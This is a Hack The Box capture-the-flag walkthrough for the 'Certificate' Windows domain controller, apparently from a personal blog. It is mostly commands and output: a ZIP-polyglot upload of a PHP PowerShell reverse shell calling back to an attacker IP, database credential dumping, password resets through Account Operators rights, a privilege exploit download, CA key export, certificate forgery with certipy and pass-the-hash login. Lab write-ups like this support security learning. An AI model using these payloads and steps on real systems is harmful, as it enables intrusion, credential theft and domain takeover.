








<div align="center"> <script src="https://www.hackthebox.eu/badge/1670709"></script> </div>

---

We root an Active Directory Windows host that also runs a web application. Initial nmap enumeration reveals HTTP, LDAP, SMB and WinRM. We exploit an insecure file upload (ZIP polyglot) to get a web shell, recover DB credentials, crack a user password, pivot via WinRM, use BloodHound to find privilege relationships, abuse Account Operators to reset other users’ passwords, run a local privilege exploit to extract the domain CA PFX, forge an admin certificate with `certipy`, and obtain a SYSTEM/administrator session.


# Port Scan
we start off with a nmap scan
```sh
nmap -sC -sV 10.129.140.153 -A -o nmap/initial-scan

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.0.30)
|_http-title: Did not follow redirect to http://certificate.htb/
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.0.30
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-01 15:38:56Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: certificate.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-06-01T15:40:34+00:00; +7h59m56s from scanner time.
| ssl-cert: Subject: commonName=DC01.certificate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.certificate.htb
| Not valid before: 2024-11-04T03:14:54
|_Not valid after:  2025-11-04T03:14:54
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certificate.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.certificate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.certificate.htb
| Not valid before: 2024-11-04T03:14:54
|_Not valid after:  2025-11-04T03:14:54
|_ssl-date: 2025-06-01T15:40:34+00:00; +7h59m57s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: certificate.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-06-01T15:40:35+00:00; +7h59m56s from scanner time.
| ssl-cert: Subject: commonName=DC01.certificate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.certificate.htb
| Not valid before: 2024-11-04T03:14:54
|_Not valid after:  2025-11-04T03:14:54
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certificate.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-06-01T15:40:34+00:00; +7h59m57s from scanner time.
| ssl-cert: Subject: commonName=DC01.certificate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.certificate.htb
| Not valid before: 2024-11-04T03:14:54
|_Not valid after:  2025-11-04T03:14:54
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (97%), Microsoft Windows 10 1903 - 21H1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Hosts: certificate.htb, DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h59m56s, deviation: 0s, median: 7h59m55s
| smb2-time: 
|   date: 2025-06-01T15:39:56
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

```

we are dealing with a window AD server hosting also a web application.  
TLS certs reveal domain `certificate.htb` and host `DC01.certificate.htb`. I added both to `/etc/hosts` for convenience.

# Smb
We don't have valid credentials, we try authenticating as the guest user : 
```sh
nxc smb 10.129.140.153 -u 'guest' -p ''
 
SMB         10.129.140.153  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certificate.htb) (signing:True) (SMBv1:False)
SMB         10.129.140.153  445    DC01             [-] certificate.htb\guest: STATUS_ACCOUNT_DISABLED 

```
The account is actually `Disabled` .With that we can't do much on smb thus we can move on to the web application.

# Web
## Enumeration
Visiting the site : 


Poking around we get that we can create an account.



For the `Teachers` account registration we need  `support@certificate.htb` to verify and activate the account.  
With that we can try inserting an `XSS` payload to call back to our server.


However since the `HttpOnly` is set  to `True` we don't except the server to send the cookie back to us.

Let's Explore more on the `student` by first creating an account and login.
As a student we get this welcome page on the `courses` tab.


Enrolling on a course allows us to view the course contents.


The watch doesn't give anything but the submit quiz does redirect to the page : 


From the page we get this instructions :   
- Please select the assignment file you want to upload (the file will be reviewed by the course instructor)
- We accept only the following file types: .pdf .docx .pptx .xlsx
- You include the assignment file in .zip archive file to reduce it's size

We can upload a the file in this case we can try `php reverse shell` but the second instruction prevents us from uploading other files other than those with the extensions `.pdf .docx .pptx .xlsx` but the third instruction allows us to upload a zip file.

## Exploitation
We can perform a **malicious ZIP polyglot attack** path. Where by the attacker creates a ZIP file (`combined.zip`) that appears innocent but contains **embedded malicious content** .  

The attack is potentially used in phishing or lateral movement.
1.  Create a harmless-looking file :  
```sh
echo "Hello World" > legit.pdf
```

2. Zip the file :  
```sh
zip real.zip legit.pdf
```

3. Prepare the malicious content :  
```sh
mkdir malfile

cd malfile

vi shell.php

```

The [payload](https://www.revshells.com/) :   
```php
<?php
shell_exec("powershell -nop -w hidden -c \"\$client = New-Object System.Net.Sockets.TCPClient('10.10.16.19',7227); \$stream = \$client.GetStream(); [byte[)\$bytes = 0..65535|%{0}; while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0){ \$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0,\$i); \$sendback = (iex \$data 2>&1 | Out-String ); \$sendback2 = \$sendback + 'PS ' + (pwd).Path + '> '; \$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback2); \$stream.Write(\$sendbyte,0,\$sendbyte.Length); \$stream.Flush()}; \$client.Close()\"");
?>

```

4.  Zip the malicious folder :   
```sh
cd .. # move one directory up.

zip -r mal.zip malfile/
  adding: malfile/ (stored 0%)
  adding: malfile/shell.php (deflated 43%)

```

5.  Combine the two ZIPs :   
```sh
cat real.zip mal.zip > combined.zip

# now we have this : 
tree .
.
├── combined.zip
├── legit.pdf
├── mal.zip
├── malfile
│   └── shell.php
└── real.zip

2 directories, 5 files

```

Before uploading we set up a nc listener :  
```sh
nc -lvnp 7227
```

We go and upload the zip 


After uploading with no errors we get a link to review our uploaded assignment.
Following the link : `http://certificate.htb/static/uploads/761998a043d56a52bd3f46a3bda61273/legit.php` ,then change to our malicious file at  `http://certificate.htb/static/uploads/761998a043d56a52bd3f46a3bda61273/malfile/shell.php`  

And we get a shell on our netcat listener : 
```sh
nc -nlvp 7227
listening on [any] 7227 ...
connect to [10.10.16.19] from (UNKNOWN) [10.129.140.153] 65165
whoami
certificate\xamppuser
PS C:\xampp\htdocs\certificate.htb\static\uploads\761998a043d56a52bd3f46a3bda61273\mal_file> 

```

# Lateral movement
Now that we have a shell we enumerate the web directory looking for a database file.  
On this `C:\xampp\htdocs\certificate.htb` directory we get a `.dp` file. 
Reading we get :  
```php
<?php
// Database connection using PDO
try {
    $dsn = 'mysql:host=localhost;dbname=Certificate_WEBAPP_DB;charset=utf8mb4';
    $db_user = 'certificate_webapp_user'; // Change to your DB username
    $db_passwd = 'cert!f!c@teDBPWD'; // Change to your DB password
    $options = [
        PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION,
        PDO::ATTR_DEFAULT_FETCH_MODE => PDO::FETCH_ASSOC,
    ];
    $pdo = new PDO($dsn, $db_user, $db_passwd, $options);
} catch (PDOException $e) {
    die('Database connection failed: ' . $e->getMessage());
}
?>

```

Now we have this credentials . 
- username : `certificate_webapp_user`
- Password : `cert!f!c@teDBPWD`
- Database name : `Certificate_WEBAPP_DB`

With this credentials we can access the database.  
Enumerating the directories further we get `mysql.exe` on the directory `C:\xampp\mysql\bin` and using this executable we can dump the database since we have the username and password.

```powershell

C:\xampp\mysql\bin\mysql.exe  -u certificate_webapp_user -p "cert!f!c@teDBPWD" -D Certificate_WEBAPP_DB -e "SELECT * FROM USERS;" 

```

From the dump we recovered `sarah`'s hashed password.
Cracked Sarah’s hash (e.g., via `hashcat`) and got:
- `username`: `Sara.B`
-  `password`: `Blink182`

We used WinRM to login as Sara:
```sh
nxc winrm certificate.htb  -u "sara.B" -p "Blink182"
WINRM       10.129.189.9    5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:certificate.htb)
WINRM       10.129.189.9    5985   DC01             [+] certificate.htb\sara.B:Blink182 (Pwn3d!)

```

WinRM accepted the creds (`Pwn3d!` in output). With an authenticated AD user we ran `bloodhound-python` to enumerate AD relations:
```sh
bloodhound-python -c all -ns 10.129.189.9 -d certificate.htb -u "sara.B" -p "Blink182"

INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: certificate.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: dc01.certificate.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 3 computers
INFO: Connecting to LDAP server: dc01.certificate.htb
INFO: Found 19 users
INFO: Found 58 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: WS-05.certificate.htb
INFO: Querying computer: WS-01.certificate.htb
INFO: Querying computer: DC01.certificate.htb
...
```

 Right off we get that the user `sara.B` has lot's of permissions thus let's try to prioritize the relevant ones.
 Since i want another shell will go for the users in the `Remote Management` group.
 

With that lets see what we can do as `sara.B` to get to the two direct members of the group.

 

 From the graph we get that sara.B is a member of `Account Operators` and with that we have `GenericAll` permissions over the user `Lion.SK` and `Ryan.K` thus we have full control and we can change their passwords to that of our liking :)  

Changing using `bloodyad`
```sh
bloodyAD --host 10.129.189.9 -d certificate.htb -u sara.B -p 'Blink182' set password 'lion.sk' 'P@ssw0rd1!'
```

Try this : **change password of ryan.k from powershell (should be easy command)**
We confirm the password change.
```sh
nxc winrm certificate.htb  -u "lion.sk" -p "P@ssw0rd1!"
WINRM       10.129.189.9    5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:certificate.htb)
WINRM       10.129.189.9    5985   DC01             [+] certificate.htb\lion.sk:P@ssw0rd1! (Pwn3d!)

```


Download the exe of this file: `https://github.com/CsEnox/SeManageVolumeExploit/releases/download/public/SeManageVolumeExploit.exe`

From Ryan.K run this:

```powershell
*Evil-WinRM* PS C:\programdata> ./SeManageVolumeExploit.exe
Entries changed: 842

DONE

```

now we have foll control over `C:\`
We can run this command to export a pfx 
```powershell

*Evil-WinRM* PS C:\programdata> certutil -exportPFX my "Certificate-LTD-CA" C:\programdata\ca.pfx
my "Personal"
================ Certificate 2 ================
Serial Number: 75b2f4bbf31f108945147b466131bdca
Issuer: CN=Certificate-LTD-CA, DC=certificate, DC=htb
 NotBefore: 11/3/2024 3:55 PM
 NotAfter: 11/3/2034 4:05 PM
Subject: CN=Certificate-LTD-CA, DC=certificate, DC=htb
Certificate Template Name (Certificate Type): CA
CA Version: V0.0
Signature matches Public Key
Root Certificate: Subject matches Issuer
Template: CA, Root Certification Authority
Cert Hash(sha1): 2f02901dcff083ed3dbb6cb0a15bbfee6002b1a8
  Key Container = Certificate-LTD-CA
  Unique container name: 26b68cbdfcd6f5e467996e3f3810f3ca_7989b711-2e3f-4107-9aae-fb8df2e3b958
  Provider = Microsoft Software Key Storage Provider
Signature test passed
Enter new password for output file C:\programdata\ca.pfx:
Enter new password:
Confirm new password:
CertUtil: -exportPFX command completed successfully.


```

Transfer this ca.pfx to your attacker machine.
```sh
certipy forge -ca-pfx ca.pfx -upn administrator@certificate.htb -subject "CN=Administrator,CN=Users,DC=certificate,DC=htb" -out administrator_sherlock.pfx
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Saving forged certificate and private key to 'administrator_sherlock.pfx'
[*] Wrote forged certificate and private key to 'administrator_sherlock.pfx'

```

Fix local clock skew so Kerberos works.

```sh
sudo ntpdate 10.129.189.9
[sudo] password for sh3rl0ck: 
2025-06-06 20:53:49.909226 (+0300) +28793.617535 +/- 0.071400 10.129.189.9 s1 no-leap
CLOCK: time stepped by 28793.617535
```

Authenticate with the forged cert and get a TGT:
```bash
certipy auth -pfx administrator_sherlock.pfx -dc-ip 10.129.189.9
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@certificate.htb'
[*] Using principal: 'administrator@certificate.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certificate.htb': aad3b435b51404eeaad3b435b51404ee:d804304519bf0143c14cbf1c024408c6


```

We use the recovered NT hash to login via WinRM:
```sh
nxc winrm certificate.htb  -u "administrator" -H "d804304519bf0143c14cbf1c024408c6"
WINRM       10.129.189.9    5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:certificate.htb)
WINRM       10.129.189.9    5985   DC01             [+] certificate.htb\administrator:d804304519bf0143c14cbf1c024408c6 (Pwn3d!)

```
# References

- [Moderators](https://youtube.com/watch?v=V70gFSoh3aU&t=780)  Discovering a file upload vulnerability, faking a PDF and uploading a PHP Shell 
- [AppSanity](https://youtube.com/watch?v=yGy3_EUi75w&t=1180)	Discovering the File Upload requires a PDF but checks the magic bytes so we can make a PDF Header on our file and upload ASPX Web Shells
